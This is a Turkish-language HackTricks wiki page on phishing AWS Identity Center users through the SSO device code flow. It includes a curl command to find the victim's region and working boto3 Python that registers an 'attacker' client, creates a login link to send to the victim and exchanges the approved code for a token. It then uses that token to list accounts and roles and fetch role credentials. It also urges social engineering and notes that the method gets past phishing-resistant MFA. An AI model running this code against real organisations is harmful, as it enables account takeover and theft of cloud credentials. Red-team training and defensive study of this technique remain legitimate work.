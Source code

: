 # AWS - Kimlik Merkezi & SSO Yetkisiz Enum

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Eğitim AWS Kırmızı Ekip Uzmanı (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Eğitim GCP Kırmızı Ekip Uzmanı (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## AWS Cihaz Kodu Phishing

Başlangıçta [**bu blog yazısında**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/) önerilen, AWS SSO kullanarak bir kullanıcıya **bağlantı** göndermek mümkündür; eğer **kullanıcı kabul ederse**, saldırgan **kullanıcıyı taklit etmek için bir token** alabilir ve **Kimlik Merkezi**'nde kullanıcının erişebileceği tüm rollere erişebilir.

Bu saldırıyı gerçekleştirmek için gereksinimler şunlardır:

* Kurbanın **Kimlik Merkezi**'ni kullanması gerekir
* Saldırgan, kurbanın kullandığı **alt alan adını** bilmelidir `<victimsub>.awsapps.com/start`

Sadece önceki bilgilerle, **saldırgan kullanıcıya bir bağlantı gönderebilir**; eğer **kabul edilirse**, **saldırgana AWS kullanıcı** hesabına erişim verecektir.

### Saldırı

1. **Alt alan adını bulma**

Saldırganın ilk adımı, kurban şirketinin Kimlik Merkezi'nde kullandığı alt alan adını bulmaktır. Bu, **OSINT** veya **tahmin + BF** ile yapılabilir, çünkü çoğu şirket burada adını veya adının bir varyasyonunu kullanacaktır.

Bu bilgiyle, Kimlik Merkezi'nin yapılandırıldığı bölgeyi almak mümkündür:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Kurban için bağlantıyı oluşturun ve gönderin**

Kurbanın kimlik doğrulaması yapabilmesi için bir AWS SSO giriş bağlantısı oluşturmak üzere aşağıdaki kodu çalıştırın.\
Demo için, bu kodu bir python konsolunda çalıştırın ve çıkmayın çünkü daha sonra token almak için bazı nesnelere ihtiyacınız olacak:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Gönderilen bağlantıyı kurbanın dikkatini çekmek için harika sosyal mühendislik becerilerinizi kullanarak iletin!

3. **Kurbanın kabul etmesini bekleyin**

Eğer kurban **zaten AWS'de oturum açmışsa**, sadece izinleri vermeyi kabul etmesi gerekecek; eğer açmamışsa, **giriş yapması ve ardından izinleri vermeyi kabul etmesi** gerekecek.\
İşte günümüzdeki istemin görünümü:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO erişim token'ını alın**

Eğer kurban istemi kabul ettiyse, **kullanıcıyı taklit ederek bir SSO token'ı oluşturmak için bu kodu çalıştırın**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO erişim belirteci **8 saat geçerlidir**.

5. **Kullanıcıyı taklit et**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Önceki saldırının **"unphisable MFA" (webAuth) kullanılsa bile çalıştığını** bilmek eğlenceli. Bunun nedeni, önceki **iş akışının kullanılan OAuth alanını asla terk etmemesidir**. Kullanıcının giriş alanını değiştirmesi gereken diğer phishing saldırılarının aksine, cihaz kodu iş akışı, **bir kodun bir cihaz tarafından bilindiği** şekilde hazırlanmıştır ve kullanıcı farklı bir makinede bile giriş yapabilir. İstemi kabul ederse, cihaz, sadece **ilk kodu bilerek**, kullanıcının **kimlik bilgilerini** **alabilecektir**.

Daha fazla bilgi için [**bu gönderiye göz atın**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
